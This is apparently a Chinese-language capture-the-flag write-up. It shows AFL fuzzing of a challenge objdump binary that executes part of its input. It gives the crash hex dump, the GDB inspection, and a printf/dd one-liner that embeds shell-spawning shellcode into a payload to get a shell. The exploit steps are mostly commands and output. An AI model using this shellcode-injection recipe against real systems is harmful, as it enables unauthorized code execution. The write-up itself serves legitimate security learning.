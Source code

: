 ## fzuu

简单读一下 AFL 的 [README](https://github.com/google/AFL)，了解到跑 fuzz 测试的流程如下：

1. 用 `afl-gcc` 编译程序（题目已经给了编译好的 `objdump_afl`）；
2. 设置初始 test case，作用相当于随机化的种子（题目给的 `fuzz_in/` 目录就是，直接用）；
3. 运行 `afl-fuzz` 跑测试。

前两步都不用自己做。直接本地安装并运行 `afl-fuzz` 跑测试：

```
$ afl-fuzz -i fuzz_in -o output ./objdump_afl -d @@ 
```

会有个好看的 TUI 显示现在触发了多少 crash 之类的。发现出现 crash 后，就可以到 `output/crashes` 里面看 payload 了。我大概跑了20分钟，就得到4个触发 crash 的 test case 了。

随便找一个 test case 看看咋回事：

```
$ xxd output/crashes/id:000000,sig:04,src:000065,op:havoc,rep:16
00000000: 5331 3030 1f1f 1f1f 1f1f 1f1f 1f1f 051f  S100............
00000010: 1f35 3043 301f 1f1f 1f1f 1f1f 1f1f 1f1f  .50C0...........
00000020: 1f1f 0010 1f0c 1f1f 1f1f 1f1f 1f1f 1f1f  ................
00000030: 1f1f 3530 3830 1f3f 1f1f 1f1f 1f1f 1f1f  ..5080.?........
00000040: 1f1f 1f1f 1f1f 1f1f 1f1f 3530 3830 1f3f  ..........5080.?
00000050: 1f1f 1f1f 1f1f 1f1f 011f 1b10 1f1f 1f1f  ................
00000060: 2a1f 1f35 ff80 30                        *..5..0
$ ./objdump -d output/crashes/id:000000,sig:04,src:000065,op:havoc,rep:16
zsh: illegal hardware instruction (core dumped)
```

这个 `illegal hardware instruction` 很有提示性，很可能是注入的 payload 被执行了。开 GDB 看一看就知道了：

```
(gdb) run -d output/crashes/id:000000,sig:04,src:000065,op:havoc,rep:16
Program received signal SIGILL, Illegal instruction.
0x00007fffffffdb80 in ?? ()
(gdb) x/32bx $rip - 8
0x7fffffffdb78: 0x80    0xdb    0xff    0xff    0xff    0x7f    0x00    0x00
0x7fffffffdb80: 0x1f    0x1f    0x1f    0x1f    0x1f    0x1f    0x1f    0x1f
0x7fffffffdb88: 0x05    0x1f    0x1f    0x35    0x30    0x43    0x30    0x1f
0x7fffffffdb90: 0x1f    0x1f    0x1f    0x1f    0x1f    0x1f    0x1f    0x1f
```

这里可以看到 0x7fffffffdb80 开始的部分是输入 payload 从 byte #7 往后的内容。也就是说 payload byte #7 后面的部分会被当成指令执行。把只读文件系统那题里写的拿 shell 的 shellcode 填进去，就能拿 shell 了：

```
$ gcc shellcode.s
$ objdump --disassemble=main a.out
0000000000001119 <main>:
    1119:       66 6a 68                pushw  $0x6
......
    113a:       0f 05                   syscall 
    113c:       0f 1f 40 00             nopl   0x0(%rax)
$ (printf 'S100\x1f\x1f'; dd if=a.out ibs=1 skip=$((0x1119)) count=$((0x113c-0x1119))) > payload
$ ./objdump -d payload
sh-5.1$ # 拿到 shell
```

网页终端里输入 base64 编码的 payload，`ls` 可以看到当前目录下有个 `flag.txt`，完成。

感觉这题没啥难度啊，不知道为啥做的人很少。

